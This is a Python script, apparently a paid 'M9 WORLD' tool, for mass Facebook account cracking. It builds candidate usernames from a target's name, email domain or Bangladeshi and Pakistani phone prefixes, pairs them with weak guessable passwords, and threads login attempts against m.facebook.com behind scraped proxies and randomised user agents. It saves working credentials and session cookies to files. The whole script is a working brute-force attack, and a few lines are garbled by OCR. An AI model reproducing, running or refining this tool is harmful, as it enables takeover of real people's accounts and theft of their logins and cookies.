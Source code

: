 # M9
cd m9 king
#SC MAKED BY M9 WORLD 
#Fuck META
#Dec By M9 WORLD 
#M9  Your Real Pappa
#M9 Kids Numbar 5

import os,sys,time,json,random,re,string,platform,base64,uuid
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from os import system as s
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
RED = '\033[1;91m'
WHITE = '\033[1;97m'
GREEN = '\033[1;32m' #
YELLOW = '\033[1;33m'
BLUE = '\033[1;34m'
ORANGE = '\033[1;35m'
P = '\x1b[1;97m' # PUTIH
M = '\x1b[1;91m' # MERAH
H = '\x1b[1;92m' # HIJAU
K = '\x1b[1;93m' # KUNING
B = '\x1b[1;94m' # BIRU
U = '\x1b[1;95m' # UNGU
O = '\x1b[1;96m' # BIRU MUDA
N = '\x1b[0m'    # WARNA MATI
A = '\x1b[1;90m' # WARNA ABU ABU
BN = '\x1b[1;107m' # BELAKANG PUTIH
BBL = '\x1b[1;106m' # BELAKANG BIRU LANGIT
BP = '\x1b[1;105m' # BELAKANG PINK
BB = '\x1b[1;104m' # BELAKANG BIRU
BK = '\x1b[1;103m' # BELAKANG KUNING
BH = '\x1b[1;102m' # BELAKANG HIJAU
BM = '\x1b[1;101m' # BELAJANG MERAH
BA = '\x1b[1;100m' # BELAKANG ABU ABU
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today() 
loop = 0
oks = []
cps = []
ugen2=[]
ugen=[]
cokbrut=[]
ses=requests.Session()
princp=[]
try:
 prox= requests.get('https://api.proxyscrape.com/v2/?request=displayproxies&protocol=socks4&timeout=100000&country=all&ssl=all&anonymity=all').text
 open('.prox.txt','w').write(prox)
except Exception as e:
 print('')
prox=open('.prox.txt','r').read().splitlines()
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
logo =   __  __ ___  __      _____  ___ _    ___   
 |  \/  / _ \ \ \    / / _ \| _ \ |  |   \  
 | |\/| \_, /  \ \/\/ / (_) |   / |__| |) | 
 |_|  |_|/_/    \_/\_/ \___/|_|_\____|___/  
                                            
\033[1;91m\033[1;41m\033[1;97m              WELCOME TO M9 TOOLS               \033[;0m\033[1;91m\033[1;92m

\033[1;92m══════════════════════════════════════════
\033[1;32m[-] TOOLS TYPE:\033[1;32m PAID
\033[1;32m[-] AUTHOR    :\033[1;32m M9 WORLD
\033[1;32m[-] GITHUB    :\033[1;32m M9 WORLD 
\033[1;32m[-] FACEBOOK  :\033[1;32m FH M9
\033[1;92m══════════════════════════════════════════

\033[1;91m<═══\033[1;41m\033[1;97m THIS NAME IS M9 BRAND\033[;0m\033[1;91m═══>\033[1;92m""")


class Main:
    def __init__(self):
        self.id = []
        self.ok = []
        self.cp = []
        self.loop = 0
        os.system("clear")
        print(logo)
        print  __  __ ___  __      _____  ___ _    ___   
 |  \/  / _ \ \ \    / / _ \| _ \ |  |   \  
 | |\/| \_, /  \ \/\/ / (_) |   / |__| |) | 
 |_|  |_|/_/    \_/\_/ \___/|_|_\____|___/  
                                            
        print(" \033[1;97m[1] FACEBOOK EMAIL ID CLONING     \033[1;91m[WORKING] ")
        print(" \033[1;97m[2] FACEBOOK USERNAME CLONING     \033[1;35m[BEST]")
        print(" \033[1;97m[3] FACEBOOK VIP RANDOM CLONING   \033[1;33m[FIRE]")
        print(" \033[1;97m[0] Exit")
        print("\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
        Snigdho =input(" [√] Choose : ")
        if Snigdho in ["1", "01"]:
            v1()
        if Snigdho in ["2", "02"]:
            v2()
        if Snigdho in ["3","03"]:
            v3()
        if Snigdho in [" 0", "00"]:
            exit()
        else:
            exit()
def v1():
    user=[]
    os.system('clear')
    print(logo)
    kode = input(' [🔥]  TERGET FIRST NAME : ')
    kodex = input(' [🔥] TERGET LAST NAME :  ')
    print(' [🤝] example Doamin : @gmail.com, @yahoo.com ')
    doamin = input(' [📧]  Input Doamin  : ')
    limit = int(input('[?] ENTET YOUR CRACK LIMIT : '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(1,4))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' [🔥]  Total ids:\033[1;92m '+tl)
        print(f"\033[1;97m [🔥]  Target Doamin:\033[1;92m {doamin}")
        print(' \033[1;97m[🔥]  The process has been started')
        print(' [🔥]  Wait for ids ')
        print(50*'_')
        for guru in user:
            uid = kode+kodex+guru+doamin
            pwx = [kode,kodex,kode+kodex,kode+'123',kode+'1234',kode+'12345',kode+guru,kodex+'123',kodex+'1234',kodex+'12345']
            yaari.submit(rcrack1,uid,pwx,tl)
    print(50*'_')
    print(' [♥] Crack process has been completed')
    print(' [♥] Ids saved in ok.txt,cp.txt')
    print(50*'_')
def v2():
    user=[]
    os.system('clear')
    print(logo)
    kode = input(' [🔥]  TERGET FIRST NAME : ')
    kodex = input(' [🔥] TERGET FIRST NAME :  ')
    doamin = '.'
    limit = int(input('[?] ENTER YOUR CRACK LIMIT : '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(1,4))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' [🔥]  Total ids:\033[1;92m '+tl)
        print(f"\033[1;97m [♥]  Target Doamin:\033[1;92m Facebook CLONING (name)")
        print(' \033[1;97m[♥]  The process has been started')
        print(' [♥]  Wait for ids ')
        print(50*'_')
        for guru in user:
            uid = kode+doamin+kodex+guru
            pwx = [kode,kodex,kode+kodex,kode+'123',kode+'1234',kode+'12345',kode+guru,kodex+'123',kodex+'1234',kodex+'12345']
            yaari.submit(rcrack1,uid,pwx,tl)
    print(50*'_')
    print(' [♥] Crack process has been completed')
    print(' [♥] Ids saved in ok.txt,cp.txt')
    print(50*'_')
def v3():
    user=[]
    os.system('clear')
    print(logo)
    print(" BD SIM CODE=><>< +88017,+88018,+88019,+88014,+88013")
    print("\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
    print(" \033[1;32mPAK SIM CODE=><>< +92301,+92302,+92303,+92305")
    print(" \033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
    print(" NOTE ; THOSE  WHO STAY IN THEIR COUNTRY THEY CAN GIVE THEIR SIM CODE NUNBER TO FACEBOOK RANDOM ID CLONE")
    print(" \033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
    
    kode = input(' [📞] ENTER SIM CODE: ')
    kodex = ''.join(random.choice(string.digits) for _ in range(2))
    kod = ''.join(random.choice(string.digits) for _ in range(2))
    doamin = ' FACEBOOK VIP CLONING (BD NUMBER) '
    limit = int(input('[?] ENTER YOUR CRACK LIMiT : '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(4))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' \033[1;33m[♥]  TOTAL IDS :\033[1;92m '+tl)
        print(f"\033[1;33m[♥]  YOUR TERGET CRACK MENU:\033[1;92m {doamin}")
        print(' \033[1;33m[♥]  THE CRACK PROCESS HAS BEEN STARTED')
        print(' \033[1;33m[♥]  WAIT FOR IDS ')
        print(50*'_')
        for guru in user:
            uid = kode+kodex+kod+guru
            pwx = [kode+kodex+kod+guru,kod+guru,kodex+guru,kode+kodex+kod,'bangladesh']
            yaari.submit(rcrack1,uid,pwx,tl)
    print(50*'_')
    print(' [♥] Crack process has been completed')
    print(' [♥] Ids saved in ok.txt,cp.txt')
    print(50*'_')
def rcrack1(uid,pwx,tl):
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            sys.stdout.write('\r[\033[1;92mPARVEJ\033[1;97m] [%s/%s] [\033[1;92mOK\033[1;97m:-\033[1;92m%s\033[1;97m] [\033[1;91mCP\033[1;97m:-\033[1;91m%s\033[1;97m] \r'%(loop,tl,len(oks),len(cps))),
            sys.stdout.flush()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {
    'authority': 'm.facebook.com',
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
    'cache-control': 'no-cache',
    # 'cookie': 'datr=E74nZPAr1N4lHnO5Z23vj8-3; sb=E74nZEslp3CcUIIi8Pt81iCR; m_pixel_ratio=1.75; wd=412x805; fr=0qe97yfeoNUBkUDS1..BkJ74b.MC.AAA.0.0.BkJ75G.AWV8YvT3ZUw',
    'pragma': 'no-cache',
    'referer': 'https://www.google.com/',
    'sec-ch-ua': '"Chromium";v="111", "Not(A:Brand";v="8"',
    'sec-ch-ua-mobile': '?1',
    'sec-ch-ua-platform': '"Android"',
    'sec-fetch-dest': 'document',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-site': 'cross-site',
    'sec-fetch-user': '?1',
    'upgrade-insecure-requests': '1',
    'user-agent': 'Mozilla/5.0 (Mobile; rv:48.0; A405DL) Gecko/48.0 Firefox/48.0 KAIOS/2.5',
}
            lo = session.post('https://m.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print(f"\033[38;5;46m[PARVEJ-OK🌻] {uid}|{ps}")
                print(f"\n[COOKIE🎁] : {coki}")
                open('/sdcard/PARVEJ/ok.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(uid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[82:97]
                print(f"\x1b[38;5;196m[PARVEJ-CP❌] {uid}|{ps}")
                open('/sdcard/PARVEJ-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(uid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\033[m[M9-WORLD💥] \033[1;92m%s\033[m |\033[m[\033[mOK:\033[1;92m%s\033[m] '%(loop,len(oks))),
        sys.stdout.flush()
    except:
        pass
Main()

